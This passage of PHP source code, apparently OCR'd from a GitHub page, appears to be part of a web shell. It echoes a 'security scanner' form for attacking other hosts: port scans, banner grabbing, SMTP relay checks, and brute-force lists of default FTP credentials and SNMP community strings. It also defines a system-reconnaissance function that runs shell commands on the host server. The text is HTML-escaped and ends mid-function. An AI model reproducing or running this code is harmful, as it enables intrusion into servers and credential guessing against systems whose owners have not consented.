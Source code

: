 echo "&lt;br&gt;&lt;table border=0 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"50%\"&gt;&lt;tr&gt;&lt;form method=\"POST\" name=security&gt;&lt;td&gt;security scanner:&lt;/td&gt;&lt;/tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;From:&lt;/td&gt;&lt;td bgcolor=\"#808080\" width=80%&gt;&lt;input name=from value=$host.1 size=40&gt; &lt;input type=checkbox value=1 style=\"border-width:1px;background-color:#808080;\" name=nslookup checked&gt;NS lookup&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td bgcolor=\"#666666\" width=25%&gt;To:&lt;/td&gt;&lt;td bgcolor=\"#666666\" width=25%&gt;xxx.xxx.xxx.&lt;input name=to type=text value=254 size=4&gt;$hcwd&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;Timeout:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input name=timeout type=text value=\"2\" size=5&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;&lt;input type=checkbox name=ipscanner value=1 checked onClick=\"document.security.port.disabled = !document.security.port.disabled;\" style=\"border-width:1px;background-color:#666666;\"&gt;Port scanner:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input name=port type=text value=\"21,23,25,80,110,135,139,143,443,445,1433,3306,3389,8080,65301\" size=60&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;&lt;input type=checkbox name=httpbanner value=1 checked style=\"border-width:1px;background-color:#808080;\"&gt;Get web banner&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=checkbox name=httpscanner value=1 checked style=\"border-width:1px;background-color:#808080;\"&gt;Webserver security scanning&nbsp;&nbsp;&nbsp;&lt;input type=checkbox name=smtprelay value=1 checked style=\"border-width:1px;background-color:#808080;\"&gt;SMTP relay check&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;&lt;input type=checkbox name=ftpscanner value=1 checked onClick=\"document.security.userpass.disabled = !document.security.userpass.disabled;\" style=\"border-width:1px;background-color:#666666;\"&gt;FTP password:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input name=userpass type=text value=\"anonymous:admin@nasa.gov,ftp:ftp,Administrator:[BLANK],guest:[BLANK]\" size=60&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;&lt;input type=checkbox name=snmpscanner value=1 onClick=\"document.security.com.disabled = !document.security.com.disabled;\" checked style=\"border-width:1px;background-color:#808080;\"&gt;SNMP:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input name=com type=text value=\"public,private,secret,cisco,write,test,guest,ilmi,ILMI,password,all private,admin,all,system,monitor,agent,manager,OrigEquipMfr,default,tivoli,openview,community,snmp,snmpd,Secret C0de,security,rmon,rmon_admin,hp_admin,NoGaH$@!,agent_steal,freekevin,0392a0,cable-docsis,fubar,ANYCOM,Cisco router,xyzzy,c,cc,cascade,yellow,blue,internal,comcomcom,apc,TENmanUFactOryPOWER,proxy,core,regional\" size=60&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#666666\" align=\"right\"&gt;&lt;input type=submit class=buttons name=securityscanner value=Scan&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;&lt;br&gt;&lt;center&gt;";
}
}
function sysinfO(){
global $windows,$disablefunctions,$safemode;
$cwd= getcwd();
$mil="&lt;a target=\"_blank\" href=\"http://www.milw0rm.org/related.php?program=";
$basedir=(ini_get("open_basedir") or strtoupper(ini_get("open_basedir"))=="ON")?"ON":"OFF";
if (!empty($_SERVER["PROCESSOR_IDENTIFIER"])) $CPU = $_SERVER["PROCESSOR_IDENTIFIER"];
$osver=$tsize=$fsize='';
if ($windows){ 
$osver = "  (".shelL("ver").")";
$sysroot = shelL("echo %systemroot%");
if (empty($sysroot)) $sysroot = $_SERVER["SystemRoot"];
if (empty($sysroot)) $sysroot = getenv("windir");
if (empty($sysroot)) $sysroot = "Not Found";
if (empty($CPU))$CPU = shelL("echo %PROCESSOR_IDENTIFIER%");
for ($i=66;$i&lt;=90;$i++){
$drive= chr($i).':\\';
if (is_dir($drive)){
$fsize+=@disk_free_space($drive);
$tsize+=@disk_total_space($drive);
}
}
}else{
$fsize=disk_free_space('/');
$tsize=disk_total_space('/');
}
$disksize="Used spase: ". showsizE($tsize-$fsize) . "   Free space: ". showsizE($fsize) . "   Total space: ". showsizE($tsize);
if (empty($CPU)) $CPU = "Unknow";